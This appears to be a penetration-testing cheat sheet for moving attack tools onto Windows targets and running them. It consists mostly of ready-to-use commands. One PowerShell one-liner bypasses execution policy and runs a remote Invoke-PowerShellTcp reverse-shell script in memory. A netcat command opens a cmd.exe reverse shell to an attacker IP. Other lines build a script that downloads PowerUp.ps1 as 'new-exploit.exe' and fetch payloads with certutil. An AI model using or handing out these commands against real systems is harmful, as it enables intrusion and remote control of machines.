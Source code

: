 ### | **Download  testfile and executes it in the memory**
```
powershell.exe  -nop -ep bypass -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/Invoke-PowerShellTcp.ps1')"
```

### |**powershell full path:**
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe
```

### | **powershell wget**
```
powershell wget "http://10.10.10.10/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.10.10 4444
```


## wget.psl
### | **kali**
```
  echo $storageDir = $pwd > wget.psl
  echo $webclient = New-Object System.Net.WebClient >>wget.psl
  echo $url = "http://10.10.14.23:8000/PowerUp.ps1 >> wget.psl
  echo $file = "new-exploit.exe" >>wget.psl
  echo $webclient.DownloadFile($url,$file) >>wget.psl
```

### | **target:**
```
C:\programs> copy y pasteo lo de arriba\\
C:\programs> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.psl \\
C:\programs> dir new-exploit.exe\\
 cool\\
```
&nbsp;
# **7 certutils**
---
### | **windows**
```
certutil.exe -urlcache -split -f "http://ip-addr:port/file" [output-file]
```
